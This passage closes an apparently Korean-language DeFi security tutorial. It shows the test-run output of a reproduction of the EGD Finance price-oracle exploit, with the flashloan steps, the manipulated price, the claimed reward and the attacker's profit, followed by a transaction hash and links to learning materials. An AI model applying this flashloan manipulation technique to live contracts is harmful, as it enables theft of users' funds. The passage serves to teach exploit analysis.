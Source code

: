   [INFO] Current earned reward (EGD token): 0.000341874999999972
  Attacker manipulating price oracle of EGD Finance...
  Flashloan[1] : borrow 2,000 USDT from USDT/WBNB LPPool reserve
  Flashloan[1] received
  Flashloan[2] : borrow 99.99999925% USDT of EGD/USDT LPPool reserve
  Flashloan[2] received
  [INFO] EGD/USDT Price after price manipulation: 0.000000000060722331
  Claim all EGD Token reward from EGD Finance contract
  [INFO] Get reward (EGD token): 5630136.300267721935770000
  Flashloan[2] payback success
  Swap the profit...
  Flashloan[1] payback success
  -------------------------------- End Exploit ----------------------------------
  [End] Attacker USDT Balance: 18062.915446991996902763

Test result: ok. 1 passed; 0 failed; finished in 1.66s
```


Note: DeFiHackLabs의 EGD-Finance.exp.sol에는 스테이킹이라는 선제적 단계가 포함되어 있습니다.

이 글에는 이 단계가 포함되어 있지 않으니 직접 시도해 보세요! Attacker Stack Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8

#### 세 번째 글은 여기서 마무리하며, 자세한 내용은 아래 링크를 참조하세요.

---
### Learning materials

[samczsun's eth txn explorer and vscode extension](https://www.youtube.com/watch?v=HXgu239mPBc)

[Vulnerabilities in DeFi by Daniel V.F.](https://www.youtube.com/watch?v=9fcOffCg2ig)

[Tenderly.co - Debug Transaction](https://www.youtube.com/watch?v=90GN9Ut8LhU)

[Reversing The EVM: Raw Calldata](https://degatchi.com/articles/reading-raw-evm-calldata)

[https://web3sec.xrex.io/](https://web3sec.xrex.io/)

---
### Appendix



[^1]: Skim() :
[^2]: 내부 함수 호출은 새로운 트랜잭션이나 블록을 생성하지 않기 때문에 블록체인에 보이지 않습니다. 따라서 다른 스마트 컨트랙트가 읽거나 블록체인 트랜젝션 내역에 표시될 수 없습니다.